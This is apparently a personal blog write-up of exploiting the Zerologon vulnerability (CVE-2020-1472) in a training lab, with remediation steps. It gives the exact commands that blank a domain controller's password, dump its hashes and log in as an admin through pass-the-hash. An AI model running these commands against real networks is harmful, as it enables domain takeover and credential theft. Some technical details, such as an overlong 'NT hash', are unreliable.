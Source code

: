 # CVE - 2020–1472 (Zerologon Vulnerability)-Exploitation & Remediation

**NOTE**: This is my first vulnerability-related writeup and I have tried to write and explain in layman terms. There may be knowledge gaps in between, which I am trying my hardest to cover and understand

**Section 1 — Exploiting Zerologon Vulnerability(CVE 2020–1472)**

**About the Vulnerability**

Netlogon is a service that runs on the Domain Controller. This service is responsible for authenticating user logins — effectively verifying the user is who they claim to be. As this function is one of the core functions of a Domain Controller, the Netlogon service cannot be stopped or firewalled off from networks of domain-joined computers.

* CVSS Score — 10
* Attack Complexity — Low
* Privileges Required — Low
* Vulnerability Found — July 2020

![](https://cdn-images-1.medium.com/max/1000/1\*zdJeAc4HdVPaL8jvpmfpWw.png)

**Exploitatable Point**

The Netlogon RPC service, used for computer and user authentication in Windows, also allows a computer to update its computer password within the domain. For several historical reasons, this service does not use standard authentication protocols to authenticate the computer. The vulnerability exists within the non-standard method used to authenticate.

Twitter thread providing a nice walkthrough — [https://twitter.com/\_dirkjan/status/1306280553281449985](https://twitter.com/\_dirkjan/status/1306280553281449985)

**Exploitation Walkthrough**

> What do you need?\
> Impacket — to capture password hashes and dump them\
> Windows 10 OS (on which the vulnerable service exists)\
> Windows 10 VM — to perform the exploit on\
> RangeForce’s ZeroLogon Vulnerability Lab (Guided Mode)

First, let’s clone the [impacket](https://github.com/SecureAuthCorp/impacket) repository from Github\
Step to install:-

> git clone [https://github.com/SecureAuthCorp/impacket.git](https://github.com/SecureAuthCorp/impacket.git)

Now, let’s copy the exploit too from Github \<cve-2020–1472-exploit.py>

Credits to [dirkjanm](https://github.com/dirkjanm).

> [https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py](https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py)

Export the exploit to /impacket/examples/CVE-2020–1472/

Now, let’s switch to this directory

By now, we have identified the following details about the vulnerable service:-

> NetBIOS computer name: DC\
> IP address: 192.168.0.4

> Syntax of exploit command:-\
> ./cve-2020–1472-exploit.py -n \<NetBIOS computer name> -t \<IP address>

Now to run the script and exploit

> ./cve-2020–1472-exploit.py -n DC -t 192.168.0.4

![](https://cdn-images-1.medium.com/max/1000/1\*yq9qEq8dTnIFQwn39Wt-Fw.png)

**What does this exploit do?**

It resets the Domain Controller’s account password to an empty string(easy login with a spacebar)

The gist: Your Domain Controller account’s password is a blank string &#x20;

**Next objective-**dump password hashes from the Domain Controller\
\


> Components required:-

> Domain Controller name\
> NetBios Name\
> IP Address of vulnerable host

We make use of the secretsdump.py module from Impacket to perform this task

> Password Dump command syntax- \
> python3 secretsdump.py -no-pass -just dc\<Domain/NETBIOS\_NAME\\$@IP>

(This command does not work with the simple execution command ./)

Filling in the blanks:-

> python3 secretsdump.py -no-pass -just-dc CONTOSO.AZURE/DC\\$@192.168.0.4

![](https://cdn-images-1.medium.com/max/1000/1\*t2iS-\_QDxa2kfwo3JlOdBw.png)

\
This leads to the dumping of around 60 password hashes:-

![](https://cdn-images-1.medium.com/max/1000/1\*GZye3Qhobt6Qf\_7HQruMxQ.png)

**Next objective** — Logging onto the account of ContosoAdmin (Domain Controller admin’s account) — using the account’s dumped hash

Scrolling through the dumped list, we find the appropriate entry:-

![](https://cdn-images-1.medium.com/max/1000/1\*KpuYcdLqTSeE6BvaneTOOQ.png)

Logging on to the server, using the wmiexec.py module:-\
\


> python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:a2bd759faf686d052f5f7c8337a2ff51 CONTOSO.AZURE/ContosoAdmin@192.168.0.4

We are in!

![](https://cdn-images-1.medium.com/max/1000/1\*1Ai0FvKkDd-jXyAVQLsHzg.png)

**Section 2 — Remediation from the Vulnerability**

How?&#x20;

* Manually restoring your password (or)
* Update and install the August 2020 & February 2021 Patch Tuesday release for the same (patches released in two phases)

**(Manual Password Restore) — How does it work?**

As you exploit the vulnerability, the password hash is being erased and replaced with a blank string in the SAM file, from where your computer cross-checks passwords as a user logs in

Using the same methodology, we copy your compromised password (blank space in this case) from the SAM hive to the Domain Controller of the exploited machine. Further, copy it to your Kali VM and then delete it from the Domain Controller

Which we achieve from the following steps:-

![](https://cdn-images-1.medium.com/max/1000/1\*GHrg-fhyBO30lYWDRwwhWw.png)

Now exiting the Windows machine, using exit- to the Kali machine

The next task is to parse the obtained SAM file, from the Domain Controller

> secretsdump.py -sam sam.save -system system.save -security security.save LOCAL\
> Why parse? — To see where accounts are mapped to and to gain other information

![](https://cdn-images-1.medium.com/max/750/1\*q8r1dbLK4yGkr2R2QhjSAQ.png)![](https://cdn-images-1.medium.com/max/1000/1\*ZBl3hRpBypYvSE4FreGP-A.png)

> Recovered password hash — 89ed2eb25e25770b7dd850e797ef8c7b49cc4d793ea50f9db33fe91cde5b97c20b8aa582a3acd371618e7f7ed5ad9ee87df1d073641c6718cb63ed7409711480

Now to place the final piece of the jigsaw — restoring the original password. For that, we have a customized script named — reinstall\_original\_pw.py

> Syntax — reinstall\_original\_pw.py \<DC\_NETBIOS\_NAME> \<DC\_IP\_ADDR> \<ORIG\_NT\_HASH>

Filling in the blanks here,

> ./reinstall\_original\_pw.py DC 192.168.0.4 89ed2eb25e25770b7dd850e797ef8c7b49cc4d793ea50f9db33fe91cde5b97c20b8aa582a3acd371618e7f7ed5ad9ee87df1d073641c6718cb63ed7409711480

Conclusion:-

This is an easy vulnerability to exploit, with less complexity, considering that we are still dependant on IT Systems to perform administrative tasks. This may be disputed, but 100% security may be a myth unless drastic action is taken to respond and patch even the slightest of issues

Thank you for the time taken to devour this red team blog entry.
